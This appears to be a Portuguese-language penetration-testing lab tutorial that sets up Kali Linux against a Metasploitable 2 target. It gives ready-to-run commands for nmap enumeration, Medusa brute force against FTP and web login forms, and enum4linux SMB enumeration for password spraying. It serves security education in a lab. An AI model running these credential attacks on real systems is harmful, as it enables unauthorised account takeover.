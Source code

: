 Preparando o ambiente com Kali Linux e Metasploitable 2

Tecnologias: Kali Linux, Metasploitable 2

Objetivo: Montar um ambiente com duas máquinas (atacante e alvo) que se comuniquem para testar vulnerabilidades (foco inicial: serviço FTP).

Vídeo de referência:

https://www.youtube.com/watch?v=nVncYYHj5Tw

Dica: Use snapshots na VM (VirtualBox/VMware). Salva tempo e evita choro quando algo quebrar. 😅

Máquinas

Máquina 1: Kali Linux — máquina atacante

Máquina 2: Metasploitable 2 — máquina alvo (servidor intencionalmente vulnerável)

Alcançando a máquina vulnerável (Metasploitable 2)

Vídeo de referência:

https://www.youtube.com/watch?v=ieRokGUqLY8&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

Objetivo

Testar as vulnerabilidades da Máquina 2 (simulando um servidor desatualizado).
Foco inicial: serviço FTP.

Passo 1 — IP do alvo

Verifique conectividade e se as máquinas estão na mesma rede:

# Substitua pelo IP do alvo
ping -c 3 192.0.0.0

Passo 2 — Enumeração (Nmap)

Descobrir portas e serviços em operação. Escaneie as portas de interesse:

# Substitua pelo IP do alvo
nmap -sV -p 21,22,80,139,445 192.0.0.0


-sV tenta identificar a versão dos serviços em execução.

Criando wordlists simples (usuários e senhas)

Vídeo de referência:

https://www.youtube.com/watch?v=1Ev-L2eRhyA&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

Crie um arquivo com usuários comuns:

echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt


Crie um arquivo com senhas comuns:

echo -e '123456\npassword\nqwerty\nmsfadmin' > pass.txt

Ataque de força bruta com Medusa (FTP)
# Substitua pelo IP do alvo
medusa -h 192.0.0.0 -U users.txt -P pass.txt -M ftp -t 6


-t 6 = threads (acelera os testes).
Se houver sucesso, o Medusa retornará combinações válidas de usuário/senha para FTP.

Ataques de força bruta em formulários web

Vídeo de referência:

https://www.youtube.com/watch?v=_vFgoPlz6-8

Para atacar logins web precisamos inspecionar o formulário (Network / DevTools) e descobrir parâmetros que o servidor espera. Com isso, podemos automatizar tentativas.

Usando Medusa contra formulário HTTP

Vídeo de referência:

https://www.youtube.com/watch?v=Yc5s7T_plao&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

Exemplo de comando (ajuste PAGE, FORM, FAIL, IP e paths conforme o alvo):

medusa -h 192.0.0.0 -U users.txt -P pass.txt -M http \
  -m PAGE:'/alvo/formulario.php' \
  -m FORM:'username=^USER^&password=^PASS^&Login=Login' \
  -m FAIL:'Login failed' -t 6


Use medusa -M http -q para tentar descobrir parâmetros comuns do formulário.

Resultado esperado: combos de login válidos para o site.

Ataque em cadeia: enumeração SMB + password spraying

Vídeo de referência:

https://www.youtube.com/watch?v=jVr9gG3nclg&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

Contexto: descobrir um login válido em ambientes corporativos mal configurados. O SMB (Server Message Block) é usado para compartilhamento de arquivos/recursos; implementações comuns usam Samba.

Simulação comum

Obtivemos acesso à rede internamente e encontramos um SMB ativo.

Estratégia: password spraying — testar várias contas com a mesma (poucas) senha(s) comuns para evitar bloqueios por detecção de brute force.

Etapa 1 — Enumeração de usuários com enum4linux
# Substitua pelo IP do alvo
enum4linux -a 192.0.0.0 | tee enum4_output.txt


-a executa técnicas automáticas de enumeração.

tee salva a saída em enum4_output.txt.

Criando lista de usuários a partir do enum4linux

Vídeo de referência:

https://www.youtube.com/watch?v=fQLlZsLe_4Y&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

Pegue os nomes coletados no enum4_output.txt e monte sua wordlist de usuários para o próximo passo (password spraying).

Testando acesso com smbclient

Vídeo de referência:

https://www.youtube.com/watch?v=q-kk9GYUg_o

Usando credenciais coletadas:

# Lista recursos compartilhados (pedirá usuário/senha)
smbclient -L //192.0.0.0 -U user

Recursos e vídeos citados

https://www.youtube.com/watch?v=nVncYYHj5Tw

https://www.youtube.com/watch?v=ieRokGUqLY8&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

https://www.youtube.com/watch?v=1Ev-L2eRhyA&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

https://www.youtube.com/watch?v=_vFgoPlz6-8

https://www.youtube.com/watch?v=Yc5s7T_plao&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

https://www.youtube.com/watch?v=jVr9gG3nclg&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

https://www.youtube.com/watch?v=fQLlZsLe_4Y&embeds_referring_origin=https%3A%2F%2Fweb.dio.me&source_ve_path=MjM4NTE

https://www.youtube.com/watch?v=q-kk9GYUg_o